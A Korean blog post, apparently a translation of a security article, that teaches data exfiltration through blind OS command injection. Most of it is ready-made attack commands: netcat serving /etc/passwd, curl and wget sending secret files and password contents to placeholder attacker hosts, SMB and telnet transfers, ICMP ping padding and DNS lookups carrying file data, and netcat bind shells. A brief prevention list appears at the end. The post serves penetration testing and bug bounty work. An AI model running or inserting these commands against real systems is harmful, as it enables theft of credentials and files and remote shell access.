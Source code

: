 ```yaml
---
layout: post
title:  "Blind OS Command Injection"
tag:   Survey
categories: IoT system persu
---
```



### 본 문서는 아래 URL을 알기 쉽게 번역한 내용이므로, 상세 내용은 아래 URL을 참조하세요.

번역 : https://www.contextis.com/resources/blog/data-exfiltration-blind-os-command-injection/

### 제목 : Blind OS Command Injection을 통한 데이터 추출

### blind OS Command Injection
사용자의 입력이 시스템 명령에 사용될 수 있는 공격인 OS Command Injection의 한 종류로 시스템 명령의 수행 결과 값을 알 수 없을 때 사용하는 방법이다.

기본적인 OS Command Injection을 이해 하기 위해서는 아래 URL 참조.
- https://www.owasp.org/index.php/Command_Injection

<img src="{{ site.url }}/images/2017-03-12/one.png" style="display: block; margin: auto;">

위 그림에서 type이후 시스템 명령 삽입이 가능하다. 하지만 성공 여부는 HTTP Response 메세지 내 노출되지 않게 된다.
이럴 경우 다른 방식으로 공격자에게 응답을 오도록 한다.

그 예로 ping을 이용한 방법이다.
- ping -c 5 xxx.xxx.xxx.xxx : 대상 IP에 icmp 메세지를 5번 요청하는 명령어

<img src="{{ site.url }}/images/2017-03-12/two.png" style="display: block; margin: auto;">

위 그림은 다중 명령어를 사용할 수 있는 방법이다.
상세 내용은 아래 URL을 참고하면 좋다... 개인적으로 이해하기 쉬운 글이었다.

- https://bpsecblog.wordpress.com/2016/10/05/command_injection_02/

지금부터는 다양한 명령어를 통해 Blind OS Command Injection에 대해 알아 보겠다.

1. NetCat (NC)

NC는 TCP, UDP을 통해 네트워크 연결을 가능하게 하며, 데이터를 읽고 쓰기가 가능한 명령어다.

- 사용법 : https://en.wikipedia.org/wiki/Netcat
-  nc –l –p {port} < {file/to/extract}

<img src="{{ site.url }}/images/2017-03-12/thr.png" style="display: block; margin: auto;">

 위 그림 처럼 nc를 이용하여 포트를 열게 되면, netstat -an 명령 시 5555번 포트가 열려 있는 것을 알 수 있다.

```
persu$ nc -l -p 5555 < /etc/passwd&
persu$ netstat -an |grep 5555
tcp4       0      0  *.5555                 *.*                    LISTEN
```
5555번 포트 접근 시 실제 /etc/passwd 내용을 확인 할 수 있다.

```
persu$ nc 127.0.0.1 5555
##
# User Database
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
```

이렇듯 NC를 통해 특정한 파일을 읽을 수 있으며, 리버스 쉘을 통해 쉘에 접근 할 수 있다.

2. cURL

cURL은 다양한 프로토콜을 사용하여 데이터를 전송하는 라이브러리 및 명령 줄 도구이며 데이터 추출을위한 매우 유용한 도구다. 취약한 서버에 cURL이 있으면 악의적인 웹 서버에 파일을 POST하거나 FTP / SCP / TFTP / TELNET 등의 프로토콜을 사용하여 파일을 전송할 수 있다.

- 사용법 : https://en.wikipedia.org/wiki/CURL
-  cat /path/to/file | curl –F “:data=@-“ http://xxx.xxx.xxx.xxxx:xxxx/test.txt

<img src="{{ site.url }}/images/2017-03-12/four.png" style="display: block; margin: auto;">

위 그림에서 사용한 명령어는 cat을 통해 /etc/passwd를 http://xxxxx/text.txt 의 데이터로 사용하게 된다.

또 다른 방법으로는 FTP 프로토콜을 사용하는 방법이다.
- curl –T {path to file} ftp://xxx.xxx.xxx.xxx –user {username}:{password}

<img src="{{ site.url }}/images/2017-03-12/five.png" style="display: block; margin: auto;">

위 명령은 -T 옵션을 이용하여, 공격자의 ftp 서버에 접근하여 file을 전송하는 명령이다.

솔직히 cURL은 평소에 잘 사용하지 않는 명령어라 옵션에 대한 정리 및 이해가 필요하다...

3. WGET

Wget은 웹에서 파일을 비 대화식으로 다운로드 할 때 일반적으로 사용되는 도구. 특히 사용자 정의 헤더 및 POST 요청을 할 수 있다.

- 사용법 : https://en.wikipedia.org/wiki/Wget
- wget –header=”EVIL:$(cat /data/secret/password.txt)”http://xxx.xxx.xxx:xxx
- –header=’name:value’ : HTTP Request 메세지 전송 시 특정 헤더에 value 추가하는 옵션

<img src="{{ site.url }}/images/2017-03-12/six.png" style="display: block; margin: auto;">

위 그림처럼 명령어 전송 시 서버측 로그를 보게 되면, header에 시스템 파일이 노출되는 것을 알 수 있다.

추가적으로 사용할 수 있는 명령어는 아래와 같다.

- wget –header=”evil:\`cat /etc/passwd | xargs echo –n`” http://xxx.xxx.xxx:xxxx

<img src="{{ site.url }}/images/2017-03-12/seven.png" style="display: block; margin: auto;">

- wget –post-data exfil=\`cat /data/secret/secretcode.txt` http://xxx.xxx.xxx.xxx:xxxx

<img src="{{ site.url }}/images/2017-03-12/eight.png" style="display: block; margin: auto;">

- wget –post-file trophy.php http://xxx.xxx.xxx.xxx:xxxx

특정 파일을 post body 영역에 전송하는 명령어

<img src="{{ site.url }}/images/2017-03-12/nine.png" style="display: block; margin: auto;">

4. SMB

Windows 운영체제를 사용하는 PC에서 Linux 또는 UNIX 서버에 접속하여 파일이나 프린터를 공유하여 사용할 수 있도록 해 주는 소프트웨어이다.

- 사용법 : https://ko.wikipedia.org/wiki/%EC%82%BC%EB%B0%94_
- net use h: \\xxx.xxx.xxx.xxx\web /user:{username} {password} && copy {File to Copy} h:\{filename}.txt

<img src="{{ site.url }}/images/2017-03-12/ten.png" style="display: block; margin: auto;">

잘 사용하지 않지만, 특정 명령어를 사용할 수 없고 SMB 프로토콜이 활성화 되어 있는 경우 유용하게 쓰일 수 있다.

5. TELNET

TELNET 프로토콜은 원격에서 쉘에 접근할 수 있는 서비스를 제공한다. 23번 Default Port를 사용하고 있으며, 평문 전송을 통해 데이터를 전달 하게 된다. (대부분 한번 쯤 써본 서비스...)

- 사용법 : https://en.wikipedia.org/wiki/Telnet
-  telnet xxx.xxx.xxx.xxx {port} < {file to transfer}

<img src="{{ site.url }}/images/2017-03-12/eleven.png" style="display: block; margin: auto;">

공격자가 NC 를 이용해 특정 포트를 오픈하고 있을 시 위 명령어를 통해 Telnet 서비스에 연결하게 되지만 실제로는 지정한 파일이 입력되어 공격자 PC에는 지정한 파일의 정보가 노출되는 것을 알 수 있다.

6. ICMP

ICMP 프로토콜은 목적지 IP에 대해 상태를 점검 하거나, management하기 위해 사용되는 서비스다. 보통 우리가 자주 쓰는 ping 명령어 또한 ICMP 메세지를 통해 전송되는 것이며, 위 내용과는 조금 다른 방식으로 사용된다.

- cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done

<img src="{{ site.url }}/images/2017-03-12/13.png" style="display: block; margin: auto;">

<img src="{{ site.url }}/images/2017-03-12/14.png" style="display: block; margin: auto;">

이 방식은 ICMP 프로토콜의 특징을 이용한 방법인데, 보통 IP 패킷을 보내기 위해서는 최소 바이트를 작성을 하여 전송해야 한다. ICMP 는 프로토콜 헤더에서 대부분의 서비스를 정의하고 실제로 보내지게 되는 Data에는 OS에서 지정한 잡다한 데이터가 입력되는데 이 부분에 공격자가 지정한 파일의 값을 입력하게 된다. (아주 쌈박함)

그 옵션이 바로 -p 옵션이며, 최대 16 개의 "패드"바이트를 지정할 수 있다. 여기서 공격자가 추출하고자하는 데이터를 저장하는 것이다.

7. DNS

DNS 프로토콜은 Domain name에 해당하는 IP 주소를 DNS 서버에 요청하여, 목적지 URL의 IP를 알아 오는 역할이다.

-  cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done

<img src="{{ site.url }}/images/2017-03-12/15.png" style="display: block; margin: auto;">

DNS 프로토콜은 해당 URL의 IP를 서버에 요청시 쿼리를 날리게 되는데 위 그림에서 사용한 방식은 요청할 URL에 파일의 값으로 사용한다는 내용이다. 충분히 가능한 얘기이며, 이 또한 프로토콜의 특성을 이용하는 방법이다.

8. 추가 내용

- nc -l -p 9090 -e cmd.exe (Windows)
- nc -l -p 9090 -e /bin/bash (*nix)

위 방식을 사용하게 되면, 해당 포트에 접근하여도 -e 옵션을 이용해 바로 쉘을 사용할 수 있게 된다.

```
Victim :  persu$ nc -l -p 9090 -e /bin/bash
Attacke : persu$ nc 127.0.0.1 9090
id
uid=501(persu)
```

### Blind OS Command Injection Prevention

OS Command Injection 공격은 IoT 디바이스에서 많이 발견되는 취약점이다. 이를 방어 하기 위한 방법은 아래와 같다.

- 시스템 명령어 사용 시 상수 값을 통한 입력값 제한
- 사용자 입력 값에 대한 화이트 리스트 기반의 특수문자 필터링 적용
- 외부로 패킷 전달이 가능한 시스템 명령어 제한(KISA 권고 사항)
- 낮은 권한의 웹 서비스 데몬 실행
- 웹 서비스에 대한 정기적인 로그 검토

어찌 됐건.... 공격자에 입장에 있는 나는 유용한 자료였으며, 이 자료를 참고하여 버그 바운티를 하겠댱 빠염!
